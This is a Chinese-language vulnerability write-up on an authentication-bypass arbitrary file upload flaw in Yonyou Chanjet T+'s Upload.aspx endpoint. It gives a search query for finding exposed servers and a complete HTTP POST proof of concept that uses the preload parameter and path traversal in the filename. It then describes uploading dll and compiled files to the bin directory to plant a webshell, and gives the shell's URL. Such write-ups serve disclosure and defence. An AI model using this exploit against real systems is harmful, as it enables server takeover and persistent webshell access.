 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-2353804.png)

存在漏洞的接口为` /tplus/SM/SetupAccount/Upload.aspx `, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662034256298-447ab241-2def-46e0-a97d-9dae60549044.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```html
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662034644623-835164ab-e259-41ab-9999-2a5ef462a462.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662037558563-ffb9835f-fc57-4d45-bc08-dfdf5cb2892d.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662037573454-3bc3ef0c-3ff2-46b6-b90a-ef3c72150be2.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662037605211-d44eed98-a1e1-4bac-85be-bb2909844f68.png)

再访问写入的Webshell进行连接

```html
/tplus/shell.aspx?preload=1	
```